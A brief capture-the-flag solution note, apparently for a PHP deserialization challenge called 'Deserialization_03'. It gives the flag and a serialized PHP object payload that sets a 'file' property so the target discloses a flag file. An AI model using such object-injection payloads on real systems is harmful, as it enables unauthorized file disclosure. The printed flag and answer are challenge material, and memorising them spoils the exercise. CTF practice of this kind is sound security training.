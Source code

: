 # Deserialization_03
Flag: `NISRA{mx6KkpRtd6Dp19wNIQCN}`

Payload:
```
O:5:"NISRA":1:{s:4:"file";s:13:"5k4g4flag.php";}
```